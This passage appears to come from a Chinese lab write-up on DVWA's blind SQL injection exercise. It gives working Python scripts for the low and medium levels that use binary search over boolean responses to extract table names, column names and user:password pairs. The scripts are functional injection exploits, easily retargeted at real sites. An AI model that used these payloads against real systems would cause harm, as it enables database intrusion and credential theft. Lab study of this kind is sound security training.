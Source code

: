 ```python
    payload = f"?id=1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{j}%23&Submit=Submit"
    # guestbook,users

    # payload = f"?id=1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{i},1))>{j}%23&Submit=Submit"
    # user_id,first_name,last_name,user,password...

    # payload = f"?id=1' and ascii(substr((select concat(user,':',password) from users limit 1,1),{i},1))>{j}%23&Submit=Submit"
    r = requests.get(url + payload, headers=header)
    if "User ID exists in the database" in r.text:
        return True
    else:
        return False

for i in range(1, 100):
    low = 32
    high = 127
    while (low <= high):
        mid = (low + high) // 2
        if (exp(i, mid)):
            low = mid + 1
        else:
            high = mid - 1
    data += chr((low + high + 1) // 2)
    print(data)

```
（2）medium
判断为数字型POST布尔盲注：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125104804987.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191125104814755.png)
脚本如下：

```python
import requests 
    
# s = requests.Session()
url = "http://49.234.118.102:6140/DVWA/vulnerabilities/sqli_blind/"

header = {'Cookie': 'security=medium; PHPSESSID=6petkvebd12iaug1tobmleq6uq'}

data = ""

def exp(i, j):
    
    payload = f"1 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{j}#"
    # guestbook,users

    #payload = f"1 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),{i},1))>{j}#"
    # user_id,first_name,last_name,user,password...

    post = {"id":payload,"Submit": "Submit"}
    r = requests.post(url, headers=header , data=post)
    if "User ID exists in the database" in r.text:
        return True#
    else:
        return False

```